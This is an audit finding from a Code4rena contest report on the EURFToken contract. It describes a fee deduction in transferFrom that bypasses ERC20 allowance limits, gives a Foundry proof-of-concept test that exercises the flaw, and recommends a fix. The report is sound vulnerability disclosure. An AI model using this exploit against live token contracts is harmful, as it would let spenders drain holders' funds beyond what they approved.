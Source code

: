 ## Next Generation
[Contest Details] (https://code4rena.com/reports/2025-01-next-generation)

### [Medium-01] Unauthorized Fees deduction byPassing Allowance checks in the Token contract

**Finding Description and Impact**
The EURFToken contract contains a critical vulnerability in its fee deduction mechanism during token transfers. The transferFrom function deducts transaction fees via an internal _update call before invoking the ERC20 transferFrom method. This internal transfer bypasses the allowance checks mandated by the ERC20 standard, allowing spenders to drain more tokens than explicitly approved.

**Impact**
1. Allowance Bypass: Attackers can exploit this to transfer tokens beyond the approved allowance, effectively stealing funds.
2. ERC20 Compliance Failure: Contracts relying on standard ERC20 allowance semantics will malfunction when interacting with EURF.
3. Funds Drain: A malicious spender can repeatedly call transferFrom until the victim's balance is exhausted, despite the original allowance.

**Proof of Concept**
Here is a coded proof of concept written in foundry, to run the test a foundry environment should be set up.

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {EURFToken} from "contracts/Token.sol";

contract EURFTokenExploit is Test {
    EURFToken public eurf;
    address Alice = makeAddr("Alice");
    address Bob = makeAddr("Bob");
    address feeFaucet = makeAddr("feeFaucet");

    bytes32 public constant CONTROLLER_ROLE = 
        0x433aa8cd04e3bb4863b80cca89cac0174e1e63dfd1976ac065e50afdf7e63bb1;

    function setUp() public {
        eurf = new EURFToken();
        eurf.initialize();
        
        vm.startPrank(eurf.owner());
        eurf.grantRole(eurf.ADMIN(), address(this));
        eurf.grantRole(CONTROLLER_ROLE, address(this));
        vm.stopPrank();

        // Grant MINTER_ROLE and mint
        vm.startPrank(address(this));
        // eurf.grantRole(eurf.MINTER_ROLE(), address(this));
        eurf.addMinter(address(this), 1000 * 1e6);
        vm.stopPrank();

        eurf.mint(Alice, 1000 * 1e6); 
        eurf.setFeeFaucet(feeFaucet);
        eurf.setTxFeeRate(1000); // 10% of fee
       
    }

    function testExploit() public {
        // Alice approve Bobs for 100 EURF
        vm.prank(Alice);
        eurf.approve(Bob, 100 *1e6);

        // Bob transfer 100 EURF from Alice (should deduct 110 )
        vm.prank(Bob);
        eurf.transferFrom(Alice, Bob, 100 * 1e6);

        // check balances
        assertEq(eurf.balanceOf(Alice), 890 * 1e6);
        // assertEq(eurf.balanceOf(Bob), 110 * 1e6);
        assertEq(eurf.allowance(Alice, Bob), 0); // Allowance should be 0 after fix (fails without mitigation)
    }
}
```

**Recommended Mitigation**
I suggest adjusting the allowance checks to include the fee. So, when transferring, the contract should check that the allowance is at least amount + fee. Then, decrease the allowance by the total, not just the transferred amount. This ensures that the allowance covers both the transfer and the fee.